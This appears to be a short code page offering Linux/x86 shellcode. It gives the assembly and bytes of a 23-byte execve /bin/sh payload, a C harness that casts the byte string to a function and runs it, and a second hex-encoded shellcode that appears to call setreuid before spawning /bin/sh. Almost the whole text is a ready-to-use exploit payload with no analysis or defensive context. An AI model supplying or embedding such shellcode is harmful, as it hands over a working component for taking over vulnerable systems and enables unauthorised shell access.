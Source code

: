 ## Linux/x86 execve /bin/sh shellcode 23 bytes

xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

********************************
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}

## Autre shellcode
"\x31\xC0\xB0\x46\x31\xDB\x31\xC9\xCD\x80\xEB
 \x13\x5B\x31\xC0\x88\x43\x07\x89\x5B\x08\x89
 \x43\x0C\xB0\x0B\x8D\x4B\x08\x8D\x53\x0C\xCD
 \x80\xE8\xE5\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F
 \x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42"